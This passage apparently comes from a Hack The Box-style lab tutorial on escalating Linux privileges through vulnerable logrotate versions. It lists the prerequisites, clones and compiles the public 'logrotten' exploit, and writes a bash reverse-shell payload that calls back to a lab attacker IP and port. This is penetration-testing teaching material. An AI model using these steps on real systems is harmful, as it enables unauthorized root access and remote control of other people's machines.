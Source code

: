 ```shell-session
cyberslut@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
cyberslut@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
cyberslut@htb[/htb]$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
